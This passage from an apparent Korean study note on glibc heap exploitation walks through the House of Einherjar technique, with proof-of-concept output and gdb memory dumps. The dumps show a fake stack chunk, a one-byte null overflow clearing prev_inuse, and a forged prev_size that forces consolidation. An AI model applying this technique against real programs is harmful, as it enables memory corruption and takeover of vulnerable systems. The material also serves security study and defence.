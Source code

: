 * Stack에 Fake chunk 생성

```
We create a fake chunk wherever we want, in this case we'll create the chunk on the stack
However, you can also create the chunk in the heap or the bss, as long as you know its address
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
(although we could do the unsafe unlink technique here in some scenarios)
Our fake chunk at 0x7fffffffe4b0 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffffffe4b0
bck: 0x7fffffffe4b0
fwd_nextsize: 0x7fffffffe4b0
```

* Fake chunk 

```
gdb-peda$ x/24gx 0x7fffffffe4b0
0x7fffffffe4b0:	0x0000000000000100	0x0000000000000100
0x7fffffffe4c0:	0x00007fffffffe4b0	0x00007fffffffe4b0
0x7fffffffe4d0:	0x00007fffffffe4b0	0x00007fffffffe4b0
```

* b의 metadata인 size에서 "prev_inuse" flag를 해제

```
We allocate 0xf8 bytes for 'b'.
b: 0x603050
b.size: 0x101
b.size is: (0x100) | prev_inuse = 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100
This is easiest if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit
If it had been modified, we would need a fake chunk inside b where it will try to consolidate the next chunk
```

* b의 size, "prev_inuse" flag가 해제되어 병합이 일어난다.

```
gdb-peda$ x/24gx 0x603040
0x603040:	0x0000000000000000	0x0000000000000100 <-
```

* b의 "prev_size"에 b - fake chunk 한 값을 입력한다.

```
We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0x603040 - 0x7fffffffe4b0 = 0xffff800000604b90
```

* fake_size

```
gdb-peda$ x/gx $rbp-0x50
0x7fffffffe4a0:	0xffff800000604b90
```
